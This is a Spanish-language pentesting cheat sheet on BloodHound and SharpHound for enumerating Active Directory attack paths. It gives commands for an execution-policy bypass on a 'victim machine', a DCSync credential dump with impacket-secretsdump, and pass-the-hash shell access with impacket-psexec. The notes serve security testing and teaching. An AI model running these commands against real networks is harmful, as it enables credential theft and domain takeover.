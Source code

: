 # BloodHound 

Tags: #AD #Powershell #Windows #Enumeracion #BloodHound 

Bloodhound es una app en JavaScript la cual puede identificar fácilmente ataques altamente complejo que de otro modo seria imposible identificar ademas puede identificar grupos con permisos excesivos. Los defensores pueden usar Bloohound para identificar y eliminar esas mismas rutas de ataque. 

## SharpHound

```bash 
# Descargamos la utilidad en nuestra maquina de atacante para despues pasar el archivo a la maquina victima que esta utilizando PowerShell

❯ wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1 
```

```powershell 
# En la maquina victima con PS. Hacemos lo siguiente para la recoleccion de data

❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 

# Enumeracion 
❯ . .\SharpHound.ps1                         # Importamos el modulo 
❯ Import-Module .\SharpHound.ps1             # Otra forma de importar el modulo  

❯ Invoke-Bloodhound -CollectionMethod All    # Utilizamnos la funcion 'Invoke' para crear el archivo  '2024_bloodhound.zip' el cual usaremos en el GUI de la herramienta de Boolhound
```

## Subir Data por Python a BloodHound

```bash
❯ bloodhound-python -d Domain.local -u User -p Password -ns IP_DC -c all   # Ejecutamos para recopilar la data y asi poder subir el archivo a la plataforma de Bloodhound

Nota: Importamos todos los archivos que fueron generados en formato 'Json'
```

## SharpHound con credenciales Validas desde un CMD en Windows 

```bash 
# Autenticarse en un 'CMD' en Windows con credenciales validas
❯ runas /netonly /user:domain1.com\username cmd    # Autenticarse con credenciales validas a nivel de red en una CMD en Windows> Este comando abrirá una nueva CMD con las credenciales 

❯ dir \\IP\DIR           # Enumerar el directorio con el usuario autenticado desde una CMD en Windows 

❯ .\SharpHound.exe -c all -d domain1.com --domaincontroller IP   # Enumeración con SharpHound a un dominio con credenciales validas desde una CMD en Windows.
Nota: La herramienta regresará un archivo '.zip' que se debe cargar en 'BloodHound' para analizar

❯ python3 -m http.server 80     # Crear un recurso compartido a nivel de red para pasar archivos 
```

## BloodHound 

* [BloodHound](https://github.com/SpecterOps/BloodHound-Legacy/releases)
* [CustomQueries.json - BloodHound](https://github.com/CompassSecurity/BloodHoundQueries)
* [Neo4j-installation](https://neo4j.com/docs/operations-manual/current/installation/linux/debian/)

```bash 
❯ neo4j console &> /dev/null & disown      # Iniciamos el servicio en el puerto local '7474' y lo independizamos

Nota: Si es la primera vez que lo usamos, abrimos la web 'localhost:7474' y agregamos las credenciales 'neo4j:neo4j', despues, agregamos una passwd nueva y asi podremos conectarnos al 'Bloodhound'


❯ ./BloodHound --no-sandbox             # Ejecutar como usuario 'root' 
❯ bloodhound &> /dev/null & disown      # Ejecutar 'Bloodhound' e independizarlo

Nota:
	1. Para subir info de un archivo '.zip' se debe usar 'Upload Data'
	2. Para subir info de archivos 'Json' se debe usar 'Import Graph'
```

## Ataques 'DCSync'

```bash 
# Si encontramos en 'Bloodhound' un usuario que tiene un 'GetChangesAll' sobre el dominio podremos hacer un 'DCSync attack' para obtener el hash del usuario 'Administrador' y por lo tanto efectuar un 'Pass-The-Hash'

❯ impacket-secretsdump <Domain/User@IP>    # Hacemos un ataque 'DCSync', debemos de colocar la passwd del usuario 
❯ impacket-psexec <Domain/Administrator@IP> cmd.exe -hashes <:hash>   # Utilizamos 'psexec' para obtener una consola interactiva autenticandonos como el usuario 'Administrator' y colocando su hash para hacer 'Pass-The-Hash'    
```